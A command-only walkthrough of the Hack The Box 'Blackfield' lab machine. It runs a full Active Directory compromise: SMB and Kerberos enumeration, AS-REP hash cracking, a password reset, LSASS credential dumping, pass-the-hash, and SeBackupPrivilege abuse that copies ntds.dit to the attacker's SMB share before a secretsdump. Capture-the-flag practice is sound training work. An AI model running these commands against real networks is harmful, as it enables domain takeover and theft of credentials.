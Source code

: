 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.192
nmap -sU -T5 10.10.10.192
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fbd9d1ba-1de4-40ac-9315-7e4696e0411e)

![image](https://github.com/regarmulia/HTB/assets/33616880/61dfed10-6cd7-4e56-86b3-6de25c80beca)

```
smbclient -L \\\\10.10.10.192\\
smbclient \\\\10.10.10.192\\profiles$

RECURSE ON
PROMPT OFF
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6270846a-059e-44b7-8ea9-b85e2b4580fe)

```
ls -la | awk -F' ' '{print $9}' > users2.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8356828b-c804-409c-9614-eb7a07575f9c)

```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/itsec/Documents/HTB-Blackfield/users2.txt
audit2020@BLACKFIELD.local
svc_backup@BLACKFIELD.local
support@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8351ac91-ddd0-4beb-b7a5-07b826d5ea17)

```
crackmapexec smb 10.10.10.192 -u users1.txt -p /usr/share/wordlists/rockyou.txt
smbclient -L \\\\10.10.10.192\\ -U BLACKFIELD.local/audit2020@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/85ac138e-3b1c-425d-a7e0-02a1459f064c)

![image](https://github.com/regarmulia/HTB/assets/33616880/8e443d07-17a2-4bb0-9581-bce86b966fce)

```
./GetNPUsers.py blackfield.local/ -no-pass -usersfile users1.txt -dc-ip 10.10.10.192
john hash1 -w=/usr/share/wordlists/rockyou.txt
#00^BlackKnight
```
![image](https://github.com/regarmulia/HTB/assets/33616880/cd8865bb-864f-46ec-a29a-696611744770)

```
neo4j console
bloodhound
git clone https://github.com/dirkjanm/BloodHound.py.git
python3 bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f5252e0-d56f-416b-aaf0-8199b768611d)

![image](https://github.com/regarmulia/HTB/assets/33616880/690ab874-b2ed-44ad-bcb1-7c905f601270)

![image](https://github.com/regarmulia/HTB/assets/33616880/32338d7d-8555-4e26-a012-c3c73abde14f)

```
Raw Query: MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce0c48d4-04cd-4b3e-a357-3cc24d23fd19)

```
rpcclient -U blackfield/support 10.10.10.192
setuserinfo audit2020 23 H@CKTHEB0X#
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3fcc9b61-e949-403c-b3d0-0f1ba9be236a)

```
crackmapexec smb 10.10.10.192 -u audit2020 -p H@CKTHEB0X# --shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c73a397a-31c3-4313-aa78-b82fe0c9cb65)

```
smbclient \\\\10.10.10.192\\forensic -U BLACKFIELD.local/audit2020
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cdfea40-0d79-4ece-a450-5ed8604b2335)

![image](https://github.com/regarmulia/HTB/assets/33616880/8c7006c9-71e4-4385-b060-5935ca36c2b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/00b5ff21-a352-44d2-bb4d-edd7d42e6538)

```
pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ac6320b3-ffcf-45b9-978f-fff33a0cb42c)

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes2
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users2
```
![image](https://github.com/regarmulia/HTB/assets/33616880/67de1db3-ce5b-473e-bc56-0830ba2c0aa3)

![image](https://github.com/regarmulia/HTB/assets/33616880/5d9c4b09-a763-4a23-9699-47c2fdee4885)

```
crackmapexec smb 10.10.10.192 -u users2 -H hashes2
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f3fa841-a28a-4cec-a91c-646e37b6e8eb)

![image](https://github.com/regarmulia/HTB/assets/33616880/40295828-c67e-423a-9faa-709ea9d8f29e)

```
whoami /priv
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99ce04fc-b535-454b-9415-909b01ac2c76)

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d74df300-d472-4da8-b81b-ad4f1f632746)

![image](https://github.com/regarmulia/HTB/assets/33616880/d8f521b9-4937-403d-b9e2-d10cb0bfdf00)

```
git clone https://github.com/giuliano108/SeBackupPrivilege.git
cd C:\programdata
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8918071a-bc69-46c9-a0e8-ddce40280dff)

![image](https://github.com/regarmulia/HTB/assets/33616880/c311daad-df7a-4bcc-b229-70f7a2c76260)

```
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
cd C:\windows\system32\config
type netlogon.dns
Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
type \programdata\netlogon.dns
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c0b388c-25d4-4184-bb14-3c61515f856f)

![image](https://github.com/regarmulia/HTB/assets/33616880/2ee6d268-90fc-47d1-94bd-dc4f77972e9b)

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fecb8fe9-4740-46b8-a14b-d3479761ef23)

```
https://pentestlab.blog/tag/diskshadow/
upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh
unix2dos vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d7f6af1-934b-4279-b5eb-e8c788d625b4)

![image](https://github.com/regarmulia/HTB/assets/33616880/95425630-c31e-492a-9b94-1ddcd202f19d)

```
vss.dsh
```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d2c6e1b2-b0fb-4966-b838-a601662324bb)

```
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.13\s /u:df df
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.13\s\ntds.dit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ace2cfb7-7a8e-45dd-a6f7-0d9962f32d5b)

![image](https://github.com/regarmulia/HTB/assets/33616880/b5095fad-0969-4aea-8fc9-5f61ff515ed2)

![image](https://github.com/regarmulia/HTB/assets/33616880/03292ed3-ef4c-40d9-824d-d0ad1fea814c)

```
./secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```
![image](https://github.com/regarmulia/HTB/assets/33616880/401b1100-989a-4eb6-861c-617b767fe70e)

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ba294f55-c00a-4a3a-8c26-2111bc1c8a5e)
